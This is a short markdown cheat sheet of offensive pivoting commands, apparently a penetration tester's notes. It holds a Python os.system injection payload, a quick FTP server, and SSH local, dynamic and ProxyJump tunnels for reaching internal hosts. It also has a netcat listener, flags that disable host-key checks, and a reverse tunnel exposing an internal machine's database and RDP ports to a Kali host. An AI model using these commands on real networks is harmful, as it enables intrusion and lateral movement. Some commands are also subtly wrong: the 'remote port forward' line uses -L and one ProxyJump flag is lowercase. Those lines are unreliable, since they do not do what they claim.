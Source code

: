 
## Random List
```
__import__('os').system('ls')
```
## FTP Server

```
python -m pyftpdlib -p 21
```

## SSH Tunneling 101
```bash
# SSH local port forward to reach  an_internal_server_ip:port via server_ip
ssh tunneler@server_ip -p 2222 -L 1234:an_internal_server_ip:80 
# Now curl localhost:1234 will fetch an_internal_server_ip:80 which is reachable from server_ip only

# dynamic port forward to create a SOCKS proxy to visit any_internal_server_ip
ssh tunneler@server_ip -p 2222 -D 1080 
# next config proxychains socks4a localhost 1080; proxychains curl http://any_internal_server_ip/; which is reachable from server_ip only

# ProxyJump ssh to an_internal_host via ssh server_ip
ssh -J tunneler@server_ip:2222 whistler@an_internal_host # which is only accessible from server_ip

# SSH remote port forward to send traffic back to our local port from a port of server_ip
ssh whistler@server_ip -p 2222 -L 58671:localhost:1234 # 
# this will listen on port 58671 of server_ip and tunnel the traffic back to us on loclahost:1234; nc -nlvp 1234 to receive for example

# Chain ProxyJump + dynamic port forward to create a proxy of 2nd_box which is only accessible via 1st_box
ssh -j firstuser@1st_box:2222 seconduser@2nd_box -D 1080
# next config proxychains socks4a localhost 1080; proxychains curl http://any_internal_server_ip/; which is reachable from 2nd_box only

# bypass first time prompt when have non-interactive shell

ssh -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" ...

```

## SSH reverse tunneling
```bash
ssh -f -N -R 8000:10.3.3.14:80 -R 4443:10.3.3.14:443 -R 33306:10.3.3.14:3306 -R 33389:10.3.3.14:3389  -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" -i key kali@192.168.19.57

# kill with
ps -C ssh
kill -9 <pid>
```
